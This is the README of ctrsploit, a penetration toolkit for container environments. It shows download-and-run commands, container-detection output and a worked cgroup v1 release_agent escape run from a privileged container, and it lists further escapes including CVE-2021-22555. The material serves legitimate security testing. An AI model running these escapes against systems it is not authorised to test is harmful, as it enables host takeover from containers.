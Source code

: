 # ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### gather information

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

where

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

## Details

### env

| command | alias | description |
| --- | --- | --- |
| [where](./env/where/README.md) | w | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver/README.md) | g | detect graphdriver type and extend information |
| [cgroups](./env/cgroups/README.md) | c | gather cgroup information |
| [capability](./env/capability/README.md) | cap | show the capability of pid 1 and current process |
| seccomp | s | show the seccomp info |
| apparmor | a | show the apparmor info |

### exploit

| exploit | alias | description |
| --- | --- | --- |
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent/README.md) | ra | escape tech by using the notify_on_release of cgroup v1 |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs/README.md) | ra3 | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555](./exploit/CVE-2021-22555/README.md) | 22555 | escape tech by using the CVE-2021-22555 |

## Todo List

see [FEATURES.md](./FEATURES.md)

